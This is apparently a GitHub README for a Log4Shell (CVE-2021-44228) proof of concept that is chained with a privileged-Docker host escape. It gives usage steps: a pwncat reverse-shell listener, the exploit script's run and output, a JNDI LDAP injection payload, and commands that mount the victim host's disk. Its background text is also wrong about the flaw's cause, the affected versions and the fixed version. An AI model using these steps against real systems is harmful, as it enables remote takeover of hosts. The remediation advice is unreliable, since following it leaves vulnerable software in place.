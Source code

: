 Log4j Vulnerability (CVE-2021-44228)
A security vulnerability, identified as CVE-2021-44228, has been discovered in certain versions of the Log4j library. In this proof of concept (poc) the explotetion of the log4j vulnerability is combined with another misconfiguration which allow an attacker to gain complete control of a victim host.

The vulnerability is caused by a flaw in the way Log4j handles deserialization of untrusted data. An attacker could exploit this vulnerability by injecting malicious payloads into the log data, which would then be deserialized by Log4j. If the victim host has a vulnerable version of Log4j and a misconfigured Java Object Input Stream (OIS) deserialization, the attacker could potentially execute arbitrary code with the same privileges as the user running the application.
In this example, multiple exploits are used in succession. First, the log4j vulnerability is exploited, and then a misconfiguration in the privileged mode of the Docker service is exploited in order to gain access to the host system.

Affected versions of Log4j are:
2.13.3 and prior
2.14.0
It is highly recommended to upgrade to Log4j version 2.14.1 or later, which addresses this vulnerability.

In addition to upgrading Log4j, it is important to ensure that the OIS deserialization is properly configured to only deserialize trusted data. This can be done by implementing a custom ObjectInputStream subclass that checks for malicious payloads or by disabling deserialization altogether if it is not needed for the application.

Please also review your system and verify that you are not using any vulnerable version of log4j and also check the deserialization configuration of your application.

It is important to keep your software up to date, and to be aware of any security vulnerabilities that may affect your systems. If you suspect that your host may have been compromised, it is important to take immediate action to contain the damage and prevent further attacks.
----------------------

As a PoC, a python file that automates the process is been created. 


#### Requirements:
```bash
pip install -r requirements.txt
```

#### Usage (exploiting log4j vuln):

* Start a pwncat listener to accept reverse shell connection.<br>
```py
pyhton3 -m pwncat -lp 4545 -m linux
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 9000 --lport 4545

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/stefanosimonetto/log4j-shell-poc.git
[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Dockerized vulnerable application
--------------------------

A Dockerfile is been added with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --priviliged --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

#### Usage (exploiting Docker misconfiguration):
Once you have remote code execution enable:
-press CTRL+D to change from local to remote
Execute the following commands to make a directory and copy the victim's host disk:
mkdir -p /mnt/pwned
mount /dev/sda1 /mnt/pwned


Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Using this exploit for malicious activity is not endorsed or supported. If assistance is requested, proof of ownership or authorized penetration testing permission for the target service may be required.

